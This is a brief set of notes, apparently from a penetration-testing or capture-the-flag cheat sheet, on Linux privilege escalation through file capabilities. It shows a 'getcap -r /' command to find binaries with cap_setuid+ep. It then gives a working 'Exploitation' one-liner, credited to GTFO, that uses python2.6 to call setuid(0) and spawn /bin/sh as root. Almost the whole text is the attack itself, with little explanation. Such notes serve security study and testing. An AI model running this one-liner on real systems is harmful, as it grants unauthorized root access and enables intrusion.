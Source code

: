 Identification

getcap -r / 2>/dev/null


![](/images/capabilities.png)


cap_setuid+ep 

ep for capabilities

Exploitation

GTFO

/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/sh")'
